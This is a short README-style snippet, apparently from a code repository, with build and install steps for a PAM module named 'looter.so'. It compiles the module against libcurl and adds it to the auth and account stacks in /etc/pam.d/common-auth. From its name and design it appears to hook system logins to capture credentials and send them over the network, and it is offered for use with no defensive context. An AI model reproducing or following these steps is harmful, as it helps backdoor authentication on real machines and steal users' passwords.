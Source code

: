 compile : gcc  -Wall -fPIC -shared -Xlinker -x -o looter.so looter.c -lcurl

in /etc/pam.d/common-auth add :

auth optional looter.so
account optional looter.so


relation:
libcurl4-openssl-dev
libpam0g-dev

